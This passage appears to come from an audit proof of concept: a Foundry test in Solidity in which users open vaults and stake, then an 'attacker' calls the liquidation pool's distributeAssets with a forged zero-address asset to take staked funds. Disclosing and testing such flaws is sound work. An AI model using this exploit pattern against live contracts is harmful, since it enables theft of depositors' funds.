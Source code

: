 ```solidity
        vm.startPrank(bob);
        vm.deal(bob, 10 ether);
        (address vaultB, ) = vaultManagerV5Instance.mint();
        address(vaultB).call{value: 10 ether}("");
        SmartVaultV3 vaultInstanceB = SmartVaultV3(payable(vaultB));
        uint256 maxMintableB = vaultInstanceB.maxMintable();
        uint256 amountToMintB = maxMintableB - 200 ether;
        vaultInstanceB.mint(bob, amountToMintB);
        TST.mint(bob, EURO.balanceOf(bob));
        TST.approve(address(liquidationPool), 1000 ether);
        EURO.approve(address(liquidationPool), 1000 ether);
        liquidationPool.increasePosition(1000 ether, 1000 ether);
        vm.stopPrank();

        vm.startPrank(john);
        vm.deal(john, 10 ether);
        (address vaultJ, ) = vaultManagerV5Instance.mint();
        address(vaultJ).call{value: 10 ether}("");
        SmartVaultV3 vaultInstanceJ = SmartVaultV3(payable(vaultJ));
        uint256 maxMintableJ = vaultInstanceJ.maxMintable();
        uint256 amountToMintJ = maxMintableJ - 200 ether;
        vaultInstanceJ.mint(john, amountToMintJ);
        TST.mint(john, EURO.balanceOf(john));
        TST.approve(address(liquidationPool), type(uint256).max);
        EURO.approve(address(liquidationPool), 1000 ether);
        liquidationPool.increasePosition(1000 ether, 1000 ether);
        /// @dev skip 2 days and call increasePosition once more wiht a minimum deposit in order to transfrom the pending stakes to positions
        skip(2 days);
        TST.mint(john, 1);
        liquidationPool.increasePosition(1, 0);
        vm.stopPrank();

        vm.startPrank(attacker);
        console2.log("Positions before attack is performed");
        (, uint256 TSTA, uint256 EUROsA ) = liquidationPool.positions(alice);
        console2.log("Position of Alice: ", TSTA/1e18, EUROsA/1e18);
        (, uint256 TSTB, uint256 EUROsB ) = liquidationPool.positions(bob);
        console2.log("Position of Bob: ", TSTB/1e18, EUROsB/1e18);
        (, uint256 TSTJ, uint256 EUROsJ) = liquidationPool.positions(john);
        console2.log("Position of John: ", TSTJ/1e18, EUROsJ/1e18);
        console2.log("Liquidation Pool contract EURO balance: ", EURO.balanceOf(address(liquidationPool))/1e18);
        (, int256 EurUsdRate,,,) = ClEurUsd.latestRoundData(); 
        (, int256 EthUsdRate,,,) = ClEthUsd.latestRoundData(); 
        uint256 amountInETH = (2900e18 * uint256(EurUsdRate)) / uint256(EthUsdRate);
        ITokenManager.Token memory maliciousToken =ITokenManager.Token(
            bytes32(0),
            address(0),
            18,
            address(ClEthUsd),
            8
        );

        ILiquidationPoolManager.Asset memory maliciousAsset = ILiquidationPoolManager.Asset(
            maliciousToken,
            amountInETH
        );
        ILiquidationPoolManager.Asset[] memory maliciousArray = new ILiquidationPoolManager.Asset[](1);
        maliciousArray[0] = maliciousAsset;
        liquidationPool.distributeAssets(maliciousArray, 1, 1);
        console2.log("");
```